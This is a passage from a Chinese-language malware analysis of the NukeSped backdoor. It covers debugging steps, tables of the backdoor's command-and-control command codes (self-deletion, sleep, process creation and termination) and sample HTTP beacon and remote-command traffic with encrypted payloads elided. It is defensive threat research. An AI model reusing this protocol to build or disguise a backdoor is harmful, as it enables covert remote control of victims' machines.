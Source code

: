 2.调试 NukeSped 后门，在第二次执行 recv 函数处下断点；

3.当调试 NukeSped 后门时，在调试第二次执行 recv 函数前，步过上线请求响应程序中的断点，则 NukeSped 后门将成功接收上线请求响应载荷，后续即可正常调试。

## 通信模型分析

基于上述样本分析情况，梳理样本通信模型如下：

-   NukeSped 后门 --> NukeSped 控制端

| 通信命令 | 命令描述 |
| --- | --- |
| 10  | 初始连接 |
| 30  | 命令执行成功 |
| 35  | 命令执行失败 |

-   NukeSped 控制端 --> NukeSped 后门

| 通信命令 | 命令描述 |
| --- | --- |
| 11  | 样本自删除 |
| 12  | 休眠 1 小时 |
| 30  | 向管道传输数据 |
| 33  | 创建进程，并返回进程回显信息 |
| 34  | 终止 33 指令运行的进程程序 |

详细通信数据如下：

### 上线请求

```plain
POST /login.php HTTP/1.1 
Host: www.google.com
Connection: keep-alive
Cache-Control: max-age=0
Sec-Fetch-Mode: 10
Sec-Fetch-User: S-WIN-XXXXXXX
Sec-Fetch-Dest: 01
```

### 远控功能

通过分析，样本上线后，上线响应即用于远程控制，通信载荷如下：

-   远控指令 33

```plain
#远控指令
HTTP/1.1 200 OK 
Content-Type: text/html
Sec-Fetch-Mode: 33
Content-Length: 18

..................  #加密载荷

#远控指令回显
GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1 
Sec-Fetch-Mode: 30
Content-Length: 00000023
Connection: keep-alive

....................... #加密载荷
```